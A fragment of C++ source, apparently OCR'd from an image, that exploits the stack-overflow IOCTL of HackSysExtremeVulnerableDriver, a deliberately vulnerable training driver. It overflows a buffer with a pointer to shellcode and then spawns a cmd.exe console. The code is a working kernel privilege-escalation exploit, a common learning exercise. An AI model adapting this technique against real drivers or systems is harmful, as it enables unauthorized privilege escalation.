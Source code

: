 ```c++
	PROCESS_INFORMATION pi = { 0 };
	si.dwFlags = STARTF_USESHOWWINDOW;
	si.wShowWindow = SW_SHOW;
	WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
	BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
	if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}

int main() {
	HANDLE hDevice = INVALID_HANDLE_VALUE;  // handle to the drive to be examined
	hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		NULL,
		NULL);

	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("cannot open i/o device");
		return false;
	}
	DWORD recvBuf;
	CHAR shellcode[0x830];
	RtlFillMemory((PVOID)shellcode, sizeof(shellcode)-0x4, 0x41);
	*(PDWORD)(shellcode + 0x82c) = (DWORD)&Shellcode;
	// allocate memory in non_paged pool
	DeviceIoControl(hDevice,                       // device to be queried
		HEVD_IOCTL_BUFFER_OVERFLOW_STACK, // operation to perform
		shellcode, sizeof(shellcode),              
		NULL, 0,
		&recvBuf,                         // # bytes returned
		NULL);          // synchronous I/O
	
	CreateCmd();
	return 0;
}
```









































